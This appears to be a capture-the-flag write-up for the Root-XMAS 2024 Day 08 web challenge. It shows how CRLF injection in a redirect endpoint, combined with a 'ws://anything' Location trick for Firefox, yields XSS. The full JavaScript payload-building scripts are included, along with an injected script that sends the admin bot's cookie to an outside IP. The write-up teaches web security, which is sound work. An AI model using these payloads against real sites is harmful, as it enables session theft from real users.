 ```yaml
---
title: Root-XMAS 2024 Day 08 - Custom HTTP Server
feed: hide
permalink: /RootXMAS_2024_08
date: 08-12-2024
summary: You redirected to the wrong neighbourhood.
---
```

### summary


A web challenge with a redirection endpoint allowing any user input. An CLRF injection / # HTTP response splitting allows to insert custom headers and body to the server's response.
However, as the returned response is a 302 redirect, to force the browser staying on the page and to execute our XSS payload, we set the location of the redirect to a Websocket (`Location: ws://anything`)
### recon

Santa has completely recreated a web framework and asserts it's completely safe! He even provided the source code so we can audit it!

Let's check it out. On the `app.js` we have listed all the endpoints, and one gets our attention: `/api/report`

defined in `reporter.js` we have:
```js
  static async generateReport(url) {
	...
	browser = await firefox.launch(...);
	const page = await browser.newPage();

	const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };

      await page.context().addCookies([cookie]);

      await page.goto(url, {
        waitUntil: 'domcontentloaded',
        timeout: 30000,
      });
...
```

Ok, so the report endpoint starts a Firefox instance with a flag cookie for the localhost, we just have to find an XSS on it, and we can steal it!
And look, there's an `/api/xss` endpoint! maybe we can find an error in its sanitizer, let's check it out! in `sanitizer.js`

```js
static escapeHtml(str) {
	return str.replace(/[&<>"']/g, char => htmlEntities[char]);
}

static xss(input) {
	return this.escapeHtml(input);
}
```

Oh... no, it's correctly escaped, there's really nothing we can do... rats!
There are also some other endpoints, but they do not take user input as parameters (`/api/xml`), or are properly sanitized (`/api/sql`)

But wait, we have the classic and juicy endpoint... `/api/redirect` !
let's check it out in `response.js`

```js
  redirect(location, isPermanent = false) {
	...
    const head = `HTTP/1.1 ${statusCode} Found\r\nLocation: ${location}\r\nConnection: close\r\n\r\n`;
    socket.write(head);
	...
  }
```

Right there! our user input, `location` is not escaped, so we can add `\r\n` characters to add our custom headers, and even HTML body, including javascript! it's an [HTTP Response splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting) vuln, a form of  [CLRF injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a#http-response-splitting) .
So let's try it out!
### solution

Here is a script to create a payload with an HTML body containing a script exfiltrating the cookie, and correct  `Content-Type` and `Content-Length` headers

```js
location_header = "test"
htmlPayload = '<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>'

clrfPayload = location_header + "\r\nContent-Type: text/html\r\nContent-Length: " + htmlPayload.length + "\r\n\r\n" + htmlPayload

encodedPayload = encodeURIComponent(clrfPayload)
redirectionUrl = "http://dyn-01.xmas.root-me.org:37120/api/redirect?url=" + encodedPayload
document.location = redirectionUrl
```

and it works! when testing in Caido we get this response from the server!

```c
HTTP/1.1 302 Found
Location: /test
Content-Type: text/html
Content-Length: 113

<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>
Connection: close
```

However, when we test in the browser... we are redirected to our `location_header` we defined at the start of our CLRF payload! , so `/test`. Our Javascript is never interpreted!

More strange behavior, if we put an empty `Location` header, we see in the devtools that Firefox sends multiple redirects requests before giving up. strange behavior... 

We are on the right track, surely. Let's search online "avoid 302 redirection crlf injection"...
and we find this wonderful blog page, [jorianwoltjer.com : web/header-crlf-injection](https://book.jorianwoltjer.com/web/header-crlf-injection)  that gives us payloads that force Firefox to stay on the page and execute our Javascript!

```js
// Firefox
Location: ws://anything
Location: wss://anything
Location: resource://anything

// Chrome
Location:
```

Hey, so we really were on the right track, our empty payload would have worked on Chrome!
So we just have to set on top of our script

```js
location_header = "ws://anything"
```

and then we can trigger the XSS, my server recieves the request!
Now to send it to the `/api/report` endpoint , and we can flag!

The full script below:
We re-encode the redirect url to send it to the report endpoint.
Also remember that we have to change the host of the redirect endpoint as `127.0.0.1` for the admin cookie to be set :

```js
location_header = "ws://anything" //firefox only
htmlPayload = '<html><script>document.location="http://11.111.111.111:49153?cookie="+document.cookie</script></html>'

clrfPayload = location_header + "\r\nContent-Type: text/html\r\nContent-Length: " + htmlPayload.length + "\r\n\r\n" + htmlPayload

eRedirectPayload = encodeURIComponent(clrfPayload)
redirectionUrl = "http://127.0.0.1:3000/api/redirect?url=" + eRedirectPayload

eReportPayload = encodeURIComponent(redirectionUrl)
portInstance = 37120
reportUrl = "http://dyn-01.xmas.root-me.org:" + portInstance + "/api/report?url=" + eReportPayload
```

We get a final report URL like this:

```bash
http://dyn-01.xmas.root-me.org:37120/api/report?url=http://127.0.0.1%3A3000%2Fapi%2Fredirect%3Furl%3Dws%253A%252F%252Fanything%250D%250AContent-Type%3A%20text%2Fhtml%250D%250AContent-Length%3A%20113%250D%250A%250D%250A%3Chtml%3E%3Cscript%3Edocument.location%3D%22http%3A%2F%2F11.111.111.111%3A49153%3Fcookie%3D%22%252Bdocument.cookie%3C%2Fscript%3E%3C%2Fhtml%3E
```

and we get the flag on our SimpleHTTPServer:

```http
GET /?cookie=FLAG=RM{Damnn_Chrome_And_Firefox_4re_S0_different} HTTP/1.1" 200 -
```


| Previous day | [[Day 07 - Go, Pwn, Gown]]       |
| ------------ | -------------------------------- |
| Next day     | [[Day 09 - The Christmas Thief]] |